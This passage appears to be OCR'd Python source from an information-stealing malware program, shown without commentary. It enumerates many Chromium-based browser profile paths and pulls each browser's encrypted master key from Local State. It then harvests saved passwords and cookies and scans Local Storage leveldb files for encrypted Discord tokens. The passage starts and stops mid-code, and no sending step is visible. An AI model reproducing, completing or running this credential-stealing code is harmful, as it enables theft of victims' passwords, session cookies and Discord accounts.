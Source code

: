         'Brave Nightly': local + '\\BraveSoftware\\Brave-Browser-Nightly\\User Data\\Default',
        'Brave Beta': local + '\\BraveSoftware\\Brave-Browser-Beta\\User Data\\Default',
        'Microsoft Edge Beta': local + '\\Microsoft\\Edge Beta\\User Data\\Default',
        'Microsoft Edge Dev': local + '\\Microsoft\\Edge Dev\\User Data\\Default',
        'Microsoft Edge Canary': local + '\\Microsoft\\Edge SxS\\User Data\\Default',
        'Chrome Beta': local + '\\Google\\Chrome Beta\\User Data\\Default',
        'Chrome Dev': local + '\\Google\\Chrome Dev\\User Data\\Default',
        'Chrome Canary': local + '\\Google\\Chrome SxS\\User Data\\Default',
        'Opera Beta': roaming + '\\Opera Software\\Opera Beta\\Stable',
        'Opera Developer': roaming + '\\Opera Software\\Opera Developer\\Stable',
        'Opera Neon': roaming + '\\Opera Software\\Opera Neon\\User Data\\Default',
        'Ungoogled Chromium': local + '\\Chromium\\User Data\\Default',
        'SlimBrowser': local + '\\SlimBrowser\\User Data\\Default',
        'Sushi Browser': local + '\\Sushi Browser\\User Data\\Default',
        'Colibri': local + '\\Colibri\\User Data\\Default'
    }
    
    all_passwords = []
    all_cookies = []
    
    for platform, path in paths.items():
        if not os.path.exists(path): continue
        try:
            with open(path + "\\Local State", "r") as file:
                key = loads(file.read())['os_crypt']['encrypted_key']
                file.close()
        except: continue
        
        if platform not in ['Discord', 'Discord Canary', 'Lightcord', 'Discord PTB']:
            master_key = b64decode(key)[5:]
            browser_passwords = get_passwords(path, master_key)
            browser_cookies = get_cookies(path, master_key)
            
            if browser_passwords:
                all_passwords.extend([{
                    "platform": platform,
                    "data": browser_passwords
                }])
            
            if browser_cookies:
                all_cookies.extend([{
                    "platform": platform,
                    "data": browser_cookies
                }])
        
        for file in listdir(path + "\\Local Storage\\leveldb\\"):
            if not file.endswith(".ldb") and file.endswith(".log"): continue
            else:
                try:
                    with open(path + f"\\Local Storage\\leveldb\\{file}", "r", errors='ignore') as files:
                        for x in files.readlines():
                            x.strip()
                            for values in findall(r"dQw4w9WgXcQ:[^.*\['(.*)'\].*$][^\"]*", x):
                                tokens.append(values)
                except PermissionError: continue
        